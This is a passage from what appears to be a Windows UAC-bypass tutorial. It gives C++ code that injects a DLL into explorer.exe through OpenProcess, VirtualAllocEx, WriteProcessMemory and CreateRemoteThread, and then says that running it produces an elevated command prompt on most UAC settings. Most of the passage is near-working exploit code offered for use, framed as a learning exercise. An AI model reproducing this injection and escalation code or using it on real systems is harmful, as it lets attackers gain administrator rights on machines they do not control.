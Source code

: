 ```cpp
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        std::wcerr << L"Failed to open explorer.exe\n";
        return 1;
    }

    //update this to your path!!!
    const wchar_t* dllPath = L"C:\\Users\\robbi\\source\\repos\\injected2\\x64\\Debug\\injected2.dll";
    size_t size = (wcslen(dllPath) + 1) * sizeof(wchar_t);

    LPVOID remoteMem = VirtualAllocEx(hProcess, nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!remoteMem) {
        std::wcerr << L"VirtualAllocEx failed\n";
        CloseHandle(hProcess);
        return 1;
    }

    if (!WriteProcessMemory(hProcess, remoteMem, dllPath, size, nullptr)) {
        std::wcerr << L"WriteProcessMemory failed\n";
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // STEP 5: Create remote thread in explorer.exe
    HANDLE hThread = CreateRemoteThread(hProcess, nullptr, 0, pLoadLibraryW, remoteMem, 0, nullptr);
    if (!hThread) {
        std::wcerr << L"CreateRemoteThread failed\n";
    }
    else {
        std::wcout << L"Injection successful!\n";
        CloseHandle(hThread);
    }

    // Clean up
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    return 0;
}
```

Compile and run that, and you'll be greeted with your elevated command prompt 🙂

![image](https://github.com/user-attachments/assets/119d2c0c-a294-4cc3-aabd-ad322d4a73e2)

This is an incredibly useful UAC bypass technique and fun to learn too!  It doesn't work on ALWAYS notify UAC setting, but otherwise it should work in all other use cases.
thanks and now on to the easier UAC bypass methods in the next sections :)
